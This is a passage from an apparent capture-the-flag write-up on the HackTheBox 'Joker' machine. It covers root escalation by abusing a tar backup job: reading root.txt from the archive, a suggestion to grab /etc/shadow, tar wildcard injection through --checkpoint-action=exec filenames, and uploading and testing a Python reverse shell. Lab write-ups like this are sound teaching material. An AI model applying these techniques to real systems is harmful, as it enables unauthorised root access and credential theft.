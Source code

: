 
Now when it runs, I’ll look in the result:

    
    
    alekos@joker:~/backup$ tar xvf dev-1596504301.tar.gz -C /tmp/
    backup.sh
    root.txt
    

I can read the flag:

    
    
    alekos@joker:~/backup$ cat /tmp/root.txt
    d452b7fa************************
    

I could also grab files like `/etc/shadow` and try to break the root password.

### Exploit #2 - –checkpoint

#### Background

[gtfobins](https://gtfobins.github.io/gtfobins/tar/) shows how to get
execution out of `tar`. My favorite is the `--to-command` flag, but that only
works on extracting, and this job is creating an archive (I showed that in
[TarTarSauce](/2018/10/20/htb-tartarsauce.html#to-command)). The other
strategy is to use the flags `--checkpoint=1` and `--checkpoint-
action=exec=[thing to run]`.

I just wrote a couple weeks ago in [Shrek](/2020/07/22/htb-shrek.html#chown-
wildcard-exploit) about a relatively famous [paper about exploiting
wildcards](https://www.exploit-db.com/papers/33930). In Shrek, it was
exploiting `chown`, and here, `tar`. The short story is that when the shell
sees a `*`, it expands it out to all the files space separated. If I can make
a filename that is actually an option for the program calling it, it will be
handled as an option.

#### Prep

First, I’ll need a reverse shell. I’ll copy the UDP Python shell to the box
using `scp`:

    
    
    root@kali# scp -i ~/keys/ed25519_gen rev.py alekos@10.10.10.21:/home/alekos/development/df   
    rev.py                                        100%  781    63.4KB/s   00:00    
    

I’ll set it executable, and test it just by running it to ensure I get a
shell:

    
    
    alekos@joker:~$ chmod +x development/df 
    alekos@joker:~$ development/df
    

I do.

#### Exploit
